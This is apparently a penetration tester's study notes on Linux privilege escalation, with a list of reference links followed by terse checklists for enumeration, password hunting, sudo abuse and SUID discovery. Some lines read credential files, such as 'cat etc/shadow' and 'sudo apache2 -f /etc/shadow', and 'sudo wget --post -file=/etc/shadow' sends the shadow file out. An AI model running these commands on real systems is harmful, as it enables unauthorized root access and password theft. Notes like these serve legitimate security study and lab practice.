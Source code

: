 # References
- Basic Linux Privilege Escalation
	- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- Linux Privilege Escalation
	- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- Checklist - Linux Privilege Escalation
	- https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
- Sushant 747's Guide (Country dependant - may need VPN)
	- https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
- GTFOBins
	- https://gtfobins.github.io/
- wget example
	- https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/
- Nginx Exploit
	- https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
- Linux Privilege Escalation using Capabilities
	- https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
- SUID vs Capabilities
	- https://mn3m.info/posts/suid-vs-capabilities/
- Linux Capabilities Privilege Escalation
	- https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099
- LinPEAS
	- https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
- Linux PrivE Playground
	- https://tryhackme.com/room/privescplayground)

  

# Initial Enum
- system enum
- hostname
- uname -a
- lscpu
- ps aux
- user enum
- whoami
- id
- sudo -l
- sudo nano
- cat etc/passwd
- cat etc/passwd | cut -d : -f 1
- cat etc/shadow
- cat etc/group
- history
- network enum
- ifconfig
- ip a
- ip route
- netstat -ano
- password hunting
- grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null

# Password & File Escalation
- bash_history contains password
- weak password & file perms
- ssh keygen
- id_rsa
- authorized_keys
- login as root
- .ssh authorized keys

# Sudo
- sudo -l
- GTFO Bins
- sudo apache2 -f /etc/shadow
- sudo wget --post -file=/etc/shadow
- LD_PRELOAD

  
# SUID (Set User ID)
- find / -perm -u=s -type f 2>/dev/null
- GTFO BINS SUID cmd

  
# Docker
- GTFO Bin